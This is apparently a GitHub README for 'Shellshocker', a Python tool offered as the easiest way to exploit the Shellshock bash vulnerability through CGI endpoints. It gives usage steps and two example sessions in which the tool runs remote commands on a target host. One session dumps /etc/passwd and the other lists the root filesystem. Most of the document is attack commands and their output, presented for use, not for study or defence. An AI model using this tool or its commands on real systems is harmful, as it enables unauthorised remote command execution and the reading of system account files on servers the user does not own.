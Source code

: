 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)


### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
```

```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: ls -lath /

total 101K
drwxrwxrwt.   3 root    root    4.0K Feb  9 22:20 tmp
drwxr-xr-x   17 root    root    3.5K Feb  9 21:14 dev
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 .
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 ..
-rw-r--r--    1 root    root       0 Feb  9 21:14 .autofsck
drwxr-xr-x.  61 root    root    4.0K Feb  9 21:14 etc
drwxr-xr-x   13 root    root       0 Feb  9 21:14 sys
dr-xr-xr-x  110 root    root       0 Feb  9 21:14 proc
dr-xr-x---.   2 root    root    4.0K Jan 15  2015 root
dr-xr-xr-x.   2 root    root    4.0K Dec 30  2014 bin
drwxr-xr-x.  19 root    root    4.0K Dec 30  2014 var
dr-xr-xr-x.   9 root    root     12K Dec 30  2014 lib64
dr-xr-xr-x.   2 root    root     12K Dec 30  2014 sbin
drwxr-xr-x.   4 root    root    4.0K Dec 30  2014 home
-rw-r--r--    1 root    root       0 Nov 12  2014 .autorelabel
dr-xr-xr-x.   8 root    root    4.0K Nov 12  2014 lib
dr-xr-xr-x.   4 root    root    4.0K Nov 12  2014 boot
drwxr-xr-x.  13 root    root    4.0K Nov 12  2014 usr
drwxr-xr-x.   2 root    root    4.0K Nov 12  2014 selinux
drwx------.   2 root    root     16K Nov 12  2014 lost+found
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 media
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 opt
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 srv
drwxr-xr-x    2 apophis apophis  512 Jan  1  1970 mnt
```
